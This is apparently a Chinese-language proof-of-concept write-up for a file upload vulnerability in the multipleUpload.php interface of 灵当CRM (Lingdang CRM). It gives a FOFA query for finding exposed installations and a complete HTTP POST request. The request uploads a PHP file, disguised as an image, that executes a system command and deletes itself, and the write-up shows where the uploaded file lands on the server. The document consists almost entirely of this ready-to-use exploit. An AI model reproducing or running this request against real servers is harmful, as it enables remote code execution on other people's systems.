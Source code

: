 # 灵当CRM系统接口multipleUpload.php文件上传漏洞

灵当CRM系统接口multipleUpload.php文件上传漏洞，允许攻击者上传恶意文件到服务器，可能导致远程代码执行、网站篡改或其他形式的攻击，严重威胁系统和数据安全。

## fofa

```javascript
body="crmcommon/js/jquery/jquery-1.10.1.min.js" || (body="http://localhost:8088/crm/index.php" && body="ldcrm.base.js")
```

## poc

```javascript
POST /crm/modules/Home/multipleUpload.php?myatt_id=1&myatt_moduel=1 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryj7OlOPiiukkdktZR

------WebKitFormBoundaryj7OlOPiiukkdktZR
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: image/png

<?php system("whoami");unlink(__FILE__);?>
------WebKitFormBoundaryj7OlOPiiukkdktZR--
```

![image-20240923093829498](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409230938562.png)

文件路径`/crm/storage/2024/September/week2/1.php`